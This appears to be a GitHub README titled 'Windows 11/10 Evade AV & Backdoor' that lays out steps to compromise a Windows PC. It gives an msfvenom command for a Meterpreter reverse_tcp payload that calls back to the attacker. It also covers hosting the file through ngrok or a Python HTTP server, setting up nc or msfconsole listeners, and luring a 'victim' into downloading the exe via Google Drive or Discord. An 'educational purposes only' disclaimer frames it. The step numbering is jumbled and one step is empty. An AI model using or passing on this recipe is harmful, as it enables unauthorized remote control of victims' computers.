 # Windows 11/10 Evade AV & Backdoor

#### **NOTE: For educational purposes only!**
#### **NOTE: Some Meterpreter commands may upset Defender.**
#### **NOTE: User must accept CMD prompt to run file. Working on a way to bypass this with send.keys() or another method.**

## Steps to Compromise:

1. **Generate the payload:** <br>
Using meterpreter here, but feel free to play around with it. <br>
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP_ADDRESS] LPORT=53 -a x86 -f exe -o (File_Name).exe
4. **Setup server in files directory:** <br>
**Using ngrok for remote, or python http server for local testing** <br>
ngrok tcp 80 or python3 -m http.server 80
Using ngrok for remote, or python http server for local testing
5. **Setup your listener with nc or msfconsole:** <br>
nc -lvnp 53 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 53) <br>
msf exploit(handler) > exploit <br>
1. **Setup Trojan Horse.** 
8. **Get creative. Have victim download "exe" file to their machine (i.e through ngrok server, google drive, discord, or other means.)**
  
# Demonstration Video
Insert video in markdown!
